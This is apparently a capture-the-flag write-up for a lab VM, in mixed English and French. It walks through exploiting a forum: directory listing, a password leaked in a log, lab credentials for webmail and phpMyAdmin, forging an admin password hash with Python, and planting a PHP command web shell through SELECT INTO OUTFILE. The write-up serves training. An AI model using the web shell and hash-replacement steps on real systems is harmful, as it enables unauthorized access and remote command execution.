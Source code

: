 # Exploit the Forum

The forum can be access throught this URI: https://192.168.1.139:443/forum/

![img forum](/img/forum.png)

```bash
==> DIRECTORY: https://192.168.1.139:443/forum/

---- Entering directory: https://192.168.1.139:443/forum/ ----
==> DIRECTORY: https://192.168.1.139:443/forum/js/
==> DIRECTORY: https://192.168.1.139:443/forum/includes/
==> DIRECTORY: https://192.168.1.139:443/forum/js/
==> DIRECTORY: https://192.168.1.139:443/forum/lang/
==> DIRECTORY: https://192.168.1.139:443/forum/modules/
==> DIRECTORY: https://192.168.1.139:443/forum/templates_c/
==> DIRECTORY: https://192.168.1.139:443/forum/themes/
==> DIRECTORY: https://192.168.1.139:443/forum/update/
```

All of this directories are listable:

![img listable](/img/index-js.png)

https://192.168.1.139/forum/index.php?mode=register

mode=login&username=test&userpw=""

<form action="https://192.168.1.139/forum/index.php?mode=register" method="POST">
    <input type="hidden" name="username" value="test" />
    <input type="hidden" name="userpw" value="test" />
</form>
<script>
    document.forms[0].submit();
</script>

By reading the lmezard's post, we can't see this line:

```bash
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2the
```

Its seems to be a log, but the users did a mistake by passing his password instead of his username.

```bash
ssh admin@192.168.1.139 -p 22
Permission denied, please try again.
ssh nvdb@192.168.1.139 -p 22
Permission denied, please try again.
ssh adam@192.168.1.139 -p 22
Permission denied, please try again.
ssh guest@192.168.1.139 -p 22
Permission denied, please try again.
ssh lmezard@192.168.1.139 -p 22
Permission denied, please try again.
```

None of thos seems work. So i try with the website: Bingo !

Her personnal informations give us her mailaddress.

https://192.168.1.139:443/webmail/
laurie@borntosec.net !q\]Ej?*5K5cy*AJ mail

mail very interesting from : qudevide@mail.borntosec.net

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
https://192.168.1.139:443/phpmyadmin/

section forum_db on peut voit dans mlf2_userdata qu'on peut edit les users dont leurs mot de passes hached 

manque plus qu'a savoir comment c'est hash, pour ca direction le code src du projet et bingo :

function generate_pw_hash($pw)
 {
  $salt = random_string(10,'0123456789abcdef');
  $salted_hash = sha1($pw.$salt);
  $hash_with_salt = $salted_hash.$salt;
  return $hash_with_salt;
 }

 on le replique en python : 
 python3 -c "import hashlib, random, string; salt = ''.join(random.choice(string.hexdigits) for _ in range(10)); pw = 'admin'; print(hashlib.sha1((pw + salt).encode()).hexdigest() + salt)"

755d3fc8e359cdc8d958882ef0c5b28d608832b436CBA99CCF

on modifie le hash de l'admin et bingo on peut se co avec 
admin admin

SELECT '<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><?php if($_GET["cmd"]) {system($_GET["cmd"]);} ?></pre></BODY></HTML>'
INTO OUTFILE '/var/www/forum/templates_c/cmd.php'

https://192.168.1.139/forum/templates_c/cmd.php